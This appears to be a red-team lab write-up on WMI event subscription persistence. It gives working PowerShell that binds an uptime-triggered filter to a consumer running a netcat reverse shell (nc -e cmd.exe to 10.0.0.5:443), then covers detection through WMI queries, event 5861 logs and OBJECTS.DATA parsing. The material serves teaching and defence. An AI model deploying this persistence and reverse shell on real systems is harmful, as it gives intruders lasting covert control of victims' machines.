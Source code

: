 ```yaml
---
description: Persistence, Privilege Escalation
---
```


# Abusing Windows Managent Instrumentation

WMI events are made up of 3 key pieces:

* event filters - conditions that the system will listen for (i.e on new process created, on new disk added, etc.)
* event consumers - consumers can carry out actions when event filters are triggered (i.e run a program, log to a log file, execute a script, etc.)
* filter to consumer bindings - the gluing matter that marries event filters and event consumers together in order for the event consumers to get invoked.

WMI Events can be used by both offenders (persistence, i.e launch payload when system is booted) as well as defenders (kill process evil.exe on its creation).

## Execution

Creating `WMI __EVENTFILTER`, `WMI __EVENTCONSUMER` and `WMI __FILTERTOCONSUMERBINDING`:

{% code title="attacker@victim" %}
```csharp
# WMI __EVENTFILTER
$wmiParams = @{
    ErrorAction = 'Stop'
    NameSpace = 'root\subscription'
}

$wmiParams.Class = '__EventFilter'
$wmiParams.Arguments = @{
    Name = 'evil'
    EventNamespace = 'root\CIMV2'
    QueryLanguage = 'WQL'
    Query = "SELECT * FROM __InstanceModificationEvent WITHIN 5 WHERE TargetInstance ISA 'Win32_PerfFormattedData_PerfOS_System' AND TargetInstance.SystemUpTime >= 1200"
}
$filterResult = Set-WmiInstance @wmiParams

# WMI __EVENTCONSUMER
$wmiParams.Class = 'CommandLineEventConsumer'
$wmiParams.Arguments = @{
    Name = 'evil'
    ExecutablePath = "C:\shell.cmd"
}
$consumerResult = Set-WmiInstance @wmiParams

#WMI __FILTERTOCONSUMERBINDING
$wmiParams.Class = '__FilterToConsumerBinding'
$wmiParams.Arguments = @{
    Filter = $filterResult
    Consumer = $consumerResult
}

$bindingResult = Set-WmiInstance @wmiParams
```
{% endcode %}

Note that the `ExecutablePath` property of the `__EVENTCONSUMER` points to a rudimentary netcat reverse shell:

{% code title="c:\shell.cmd" %}
```csharp
C:\tools\nc.exe 10.0.0.5 443 -e C:\Windows\System32\cmd.exe
```
{% endcode %}

## Observations

Note the process ancestry of the shell - as usual, wmi/winrm spawns processes from `WmiPrvSE.exe`:

![](../../../.gitbook/assets/wmi-shell-system.png)

On the victim/suspected host, we can see all the regsitered WMI event filters, event consumers and their bindings and inspect them for any malicious intents with these commands:

{% code title="__EventFilter@victim" %}
```csharp
Get-WmiObject -Class __EventFilter -Namespace root\subscription
```
{% endcode %}

Note the `Query` property suggests this wmi filter is checking system's uptime every 5 seconds and is checking if the system has been up for at least 1200 seconds:

![](../../../.gitbook/assets/wmi-filter.png)

Event consumer, suggesting that the `shell.cmd` will be executed upon invokation as specified in the property `ExecutablePath`:

{% code title="__EventConsumer@victim" %}
```csharp
Get-WmiObject -Class __EventConsumer -Namespace root\subscription
```
{% endcode %}

![](../../../.gitbook/assets/wmi-consumer.png)

{% code title="__FilterToConsumerBinding@victim" %}
```csharp
Get-WmiObject -Class __FilterToConsumerBinding -Namespace root\subscription
```
{% endcode %}

![](../../../.gitbook/assets/wmi-binding.png)

Microsoft-Windows-WMI-Activity/Operational contains logs for event `5861` that capture event filter and event consumer creations on the victim system:

![](../../../.gitbook/assets/wmi-filter-consumer-creation.png)

## Inspection

If you suspect a host to be compromised and you want to inspect any `FilterToConsumer` bindings, you can do it with PSRemoting and the commands shown above or you can try getting the file`%SystemRoot%\System32\wbem\Repository\OBJECTS.DATA`

Then you can use [PyWMIPersistenceFinder.py](https://github.com/davidpany/WMI\_Forensics) by David Pany to parse the `OBJECTS.DATA` file and get a list of bindings like:

```bash
./PyWMIPersistenceFinder.py OBJECTS.DATA
```

![](../../../.gitbook/assets/wmi-parser.png)

### Strings + Grep

If you are limited to only the native \*nix/cygwin utils you have to hand, you can get a pretty good insight into the bindings with the following command:

```csharp
strings OBJECTS.DATA | grep -i filtertoconsumerbinding -A 3 --color
```

Below are the results:

![](../../../.gitbook/assets/wmi-strings-grep.png)

From the above graphic, we can easily see that one binding connects two evils - the evil consumer and the evil filter.

Now that you know that you are dealing with `evil` filter and `evil` consumer, use another rudimentary piped command to look into the evil further:

```csharp
strings OBJECTS.DATA | grep -i 'evil' -B3 -A2 --color
```

Note how we can get a pretty decent glimpse into the malicious WMI persistence even with simple tools to hand - note the `C:\shell.cmd`and `SELECT * FROM` ... - if you recall, this is what we put in our consumers and filters at the very [beginning](./#execution) of the lab:

![](../../../.gitbook/assets/wmi-strings-grep2.png)

## References

Based on the research by [Matthew Graeber](https://twitter.com/mattifestation) and other great resources listed below:&#x20;

{% embed url="https://learn-powershell.net/2013/08/14/powershell-and-events-permanent-wmi-event-subscriptions/" %}

{% embed url="https://www.youtube.com/watch?v=0SjMgnGwpq8" %}

{% embed url="https://attack.mitre.org/wiki/Technique/T1084" %}

{% embed url="https://www.darkoperator.com/blog/2013/1/31/introduction-to-wmi-basics-with-powershell-part-1-what-it-is.html" %}

{% embed url="https://pentestarmoury.com/2016/07/13/151/" %}

{% embed url="https://msdn.microsoft.com/en-us/library/aa394084%28v=vs.85%29.aspx?f=255&MSPPError=-2147217396" %}

{% embed url="https://www.eideon.com/2018-03-02-THL03-WMIBackdoors/" %}

{% embed url="https://docs.microsoft.com/en-us/previous-versions/windows/embedded/aa940177(v=winembedded.5)" %}
